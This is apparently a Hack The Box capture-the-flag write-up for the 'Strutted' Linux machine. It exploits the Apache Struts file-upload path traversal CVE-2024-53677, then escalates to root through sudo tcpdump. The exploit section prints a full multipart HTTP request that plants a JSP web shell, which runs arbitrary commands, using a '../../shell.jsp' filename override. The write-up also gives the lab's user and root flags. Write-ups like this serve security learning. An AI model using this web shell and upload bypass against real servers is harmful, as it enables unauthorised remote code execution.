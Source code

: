 ```yaml
---
title: "Strutted"
description: "This is a dummy post written in the year 2024 (with multiple authors)."
date: 2025-08-20
tags:
  - HTB
  - Medium
  - Writeup
image: "./pwn_strutted.png"
authors:
  - saad484
---
```


# Strutted

**OS:** Linux  
**IP:** 10.10.11.59  
**Complete:** Yes  
**Created time:** August 20, 2025 9:12 PM  
**Level:** Medium  
**Status:** Done

---

## Overview

> Strutted is a medium-difficulty Linux machine that features a web application built with Apache Struts. The vulnerable version of Struts (6.3.0.1) is affected by [CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677), which leads to an arbitrary file upload and RCE.

- Vulnerability: _Path Traversal in file upload_ → allows attackers to override `FileName` parameters → write arbitrary files under webroot → **RCE**.
- Reference: [NVD – CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677)
- Additional Deep-Dive: [Y4tacker Blog](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/#S2-067%E4%B9%8B%E5%8D%95%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%9C%BA%E6%99%AF%E7%BB%95%E8%BF%87)

---

## Reconnaissance

### Nmap Results

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.59
````
```bash
22/tcp open  ssh     OpenSSH 8.9p1 terUbuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Strutted™ - Instant Image Uploads
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````
- Open ports confirm SSH and a web app on port 80

### Port 80 - HTTP
The website allows users to upload and share images.
- source code was downloadable as `Docker Image`, containing:
- `tomcat-users.xml` with plaintext creds
- `pom.xml` -> Struts version `6.3.0.1`
- `upload.java`- > Weak MIME-type checks (bypass possible)

![docker-source](image.png)

![tomcat-users](image%202.png)

![pom.xml](image%203.png)

![upload.java](image%204.png)

- Upload filter only checks headers (`GIF89a`, JPEG, PNG) → polyglot bypass.  
- Struts automatically binds `UploadFileName` from request → attacker can manipulate path/filename.  
- Bug in `FileUploadInterceptor` allows overriding `*FileName` params.  

---
## Exploit
1. Upload a polyglot file(`GIF89a` header + JSP paylaod).
2. Override filename with `../../shell.jsp`.
3- File lands in webroot -> visit `/shell.jsp` -> **RCE**.

````bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28595235431535184633711166866
Origin: http://strutted.htb
Connection: close
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=17F3A16170C3E0A242D72A0BBF82A633
Upgrade-Insecure-Requests: 1
Content-Length: 1170

-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="Upload"; filename="test.gif"
Content-Type: image/gif

GIF89a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";
    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------28595235431535184633711166866--
````

![exploit](image%205.png)
![shell.jsp](image%206.png)

**User flag:** e95aedf1a8dc69e47e460795e5bd4328

---
## Privilege Escalation
Running `sudo -l` on **james** shows `tcpdump` runnable as root (no password).

Exploit: [GTFOBins - tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
![tcpdump](image%209.png)

**Root flag:** d89b839b31ac202b028d3d567dff965c

![root-proof](image%2010.png)
